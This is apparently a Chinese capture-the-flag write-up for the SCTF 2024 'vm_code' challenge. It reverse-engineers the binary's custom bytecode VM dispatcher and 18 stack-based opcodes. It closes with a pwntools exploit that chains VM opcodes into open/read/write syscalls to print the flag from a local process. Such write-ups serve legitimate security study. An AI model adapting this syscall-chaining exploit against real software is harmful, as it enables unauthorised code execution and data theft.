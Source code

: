 ```yaml
---
title: 2024-sctf
date: 2024-10-2
categories: 2024-sctf
tag: vm
---
```

# 前言
比赛那两天偷懒了，两天都只打了半天，到晚上就不想看了。
然后vm_code这题要是有时间的话看一下应该是能做的。赛后自己研究了一下发现还行。
这题主要是想记录一下vm题的逆向过程。
# 逆向过程
![resolve](./sctf-vmcode/resolve.png)
## 0x122f
图片中是main函数的后半段，清除rdi，rsi之后直接call +5，就跳转到了`123A`的`lea rax,code`

然后从`code+rsi`的地址取出一个字节放进rax，rsi增加一，rax-0x21之后跳转到1257

先说下这段是什么意思，很明显，rsi是起到rip的作用，`code+rsi`就是运行代码的位置。rax则是起到暂存当前执行代码的功能。

还有就是如果rax<0x21，那么跳转不成立，就会执行ud2指令，导致程序卡死利用失败。
## 0x1257
![jpm_func](./sctf-vmcode/jmp_func.png)
如果成功跳转到1257后，将rax的值暂存到rcx，然后程序取offset段地址放进rax，然后以[rax+rcx*2]的值为rax的值，加上一个基地址，最后跳转。

在offset段看到，有很多似乎不明意义的数字，不过仔细观察可以发现规律，每个有数据的byte中间都隔了一个`\x00`，也就是和刚刚看到的[rax+rcx*2]对应上了，解释了为什么rcx需要乘以2。

所以总结一下功能，就是根据输入的字节码，在offset段上寻找偏移，最后跳转到`main+209+偏移`的位置。
## 18个可执行函数
![jpm_able](./sctf-vmcode/jpm_able.png)
刚刚说了可以通过输入字节码让程序在offset段寻址并根据找到的值跳转，在ida里又可以看到有很多带有retn的函数(或者说是小代码块也可以)，猜测offset的值与这些retn的小函数偏移一一对应，验证后果然如此。
接下来就是逐个解析十八个小函数的功能，程序在vm中实现了栈功能，并且没有分配给vm寄存器的内存，所有功能都以栈为基础。实际功能在下面。
到了这一步就挺简单的了，因为程序直接给了push和syscall的功能，只要布置好栈上的值就行了。
```
rdi = sp
rbx = rbp
rsi = rip
```
```
1
pop rsi

2
pop rax;pop rcx;push (rax^rcx)

3
swap([rsp],[rsp-0x10])
4
pop rax,pop rcx,push rcx,push rax

5
push content

6
pop rax,push al

7
pop

8
shr [rsp],0x8

9
pop rax
push rax;push rax

10
shl [rsp],0x8

11
jmp(11,b'\x00')
pop rax;jmp content

12
pop rax;pop rcx;ror rax,cl;push rax

13
pop rax;pop rcx;rol rax,cl;push rax

14
pop rax;pop rcx;and rax,rcx;push rax

15
pop rax
pop rdi
pop rsi
pop rdx
syscall

16
push rsp
17
push rip

18
exit
```
# exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    log_level="debug",
)

io = process("./pwn")

shcode = b''
shcode +=p8(5+0x21) + b'flag'
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x0)
shcode +=p8(9+0x21)
shcode +=p8(3+0x21)
shcode +=p8(5+0x21) + p32(0x2)
shcode +=p8(15+0x21)

shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x3)
shcode +=p8(5+0x21) + p32(0)
shcode +=p8(15+0x21)

shcode +=p8(7+0x21)
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(15+0x21)

io.send(shcode)

io.interactive()
```
